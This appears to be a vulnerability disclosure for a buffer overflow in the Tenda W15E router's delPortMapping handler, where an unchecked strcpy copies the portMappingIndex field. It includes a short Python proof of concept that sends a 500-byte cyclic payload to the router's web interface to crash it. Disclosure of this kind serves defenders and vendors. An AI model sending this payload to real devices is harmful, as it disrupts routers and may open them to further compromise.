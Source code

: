# W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x0007D064. pPortMapIndex gets the content of portMappingIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/2.png)

POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/delPortMapping'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='portMappingIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown
![image](image/2-use.png)






